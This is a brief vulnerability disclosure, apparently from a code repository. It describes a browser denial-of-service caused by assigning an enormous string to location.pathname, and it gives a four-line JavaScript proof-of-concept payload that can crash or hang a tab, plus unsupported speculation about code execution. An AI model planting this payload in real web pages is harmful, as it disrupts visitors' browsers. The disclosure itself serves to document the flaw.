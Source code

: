 # location.pathname DoS via flood

location.pathname is vulnerable to a DoS via flooding it with an incredibly large string.

PoC (@iHateRa1n):

```javascript
var k=new Uint32Array(1048576*6);
k=Array.from(k);
k=k.toString();
location.pathname=k;
```

It is a simple PoC, but illustrates that a lot of location's variables can be utilized for a DoS, crash, or possibly even A.C.E (arbitrary code exec)

PS-2018-2431
